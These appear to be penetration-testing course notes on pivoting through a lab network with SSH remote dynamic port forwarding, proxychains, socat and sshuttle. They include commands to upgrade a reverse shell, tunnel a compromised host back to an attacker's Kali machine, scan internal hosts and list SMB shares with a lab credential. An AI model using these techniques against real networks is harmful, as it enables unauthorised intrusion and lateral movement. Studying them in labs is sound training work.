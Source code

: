 ## SSH Remote Dynamic Port Forwarding
Dynamic port forward in remote configuration
- SOCKS proxy port is bound to the SSH server
- traffic is forwarded from the SSH client

Our setup:
![[Pasted image 20240820161354.png]]

![[Pasted image 20240820161827.png]]

1. Connect CONFLUENCE01 reverse shell from Kali
2. Make sure we have TTY shell in CONFLUENCE01:
   `python3 -c 'import pty; pty.spawn("/bin/bash")'`
3. Set up remote dynamic port forwarding:
   `ssh -N -R 9998 kali@192.168.118.4`
4. On Kali, check that the listening port is bound:
   `sudo ss -ntplu`
5. Edit the Proxychains config file on Kali `/etc/proxychains4.conf`:
   Replace any existing proxy definition in the file with `socks5 127.0.0.1 9998`
6. As we did before, we can then run nmap with proxychains against MULTISERVER03:
   `proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64`

## Using [sshuttle](https://github.com/sshuttle/sshuttle)

- easier to manage situations where we have direct access to an SSH server, behind which is a more complex internal network
- turns an SSH connection into something similar to a VPN by setting up local routes that force traffic through SSH tunnel
- requires root privileges on the SSH client and Python3 on the SSH server

Example:
1. set up a port forward in a shell on CONFLUENCE01, listening on port 2222 on the WAN interface and forwarding to port 22 on PGDATABASE01:
   `socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22`
2. on Kali, run sshuttle, specifying the SSH connection string we want to use, as well as the subnets that we want to tunnel through this connection (10.4.50.0/24 (containing PGDATABASE01) and 172.16.50.0/24 (containing HRSHARES)):
   `sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24`
3. Now, any requests made from Kali to hosts in the subnets specified in step 2 will be pushed transparently through the SSH connection
   E.g. `smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234`